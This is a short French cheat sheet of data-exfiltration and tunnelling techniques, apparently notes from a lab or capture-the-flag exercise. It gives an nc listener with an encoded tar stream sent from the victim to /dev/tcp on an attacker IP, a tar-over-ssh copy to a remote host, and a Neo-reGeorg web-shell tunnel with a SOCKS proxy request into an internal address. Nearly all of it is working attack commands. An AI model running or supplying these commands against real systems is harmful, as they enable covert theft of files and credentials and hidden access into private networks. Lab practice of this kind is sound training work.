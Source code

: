 ## TCP (non - standard)!!

Attaquant
```
nc -lvp 8080 > /tmp/my-file.data
```
<br>

Vitcime
```
tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/<IP>/8080
```
<br>

Attaquand
```
dd conv=ascii if=my-file.data |base64 -d > my-file.tar
tar xvf task4-creds.tar
```
<br>
<br>

## SSH

```
tar cf - task5/ | ssh <user>@<remote-IP>"cd /tmp/; tar xpf -"
```
<br>
<br>

## HTTPS

Attaquant
```
git clone https://github.com/L-codes/Neo-reGeorg.git
```

#### Setup du tunnel
```
python3 neoreg.py generate -k <secret> 
```
(ensuite on upload un des fichiers créer par neoreg)

#### Connexion au tunnel

```
python3 neoreg.py -k <secret> -u http://<IP>/path/to/tunnel.php
```

#### Requête

```
curl --socks5 127.0.0.1:1080 http://172.20.0.121
```
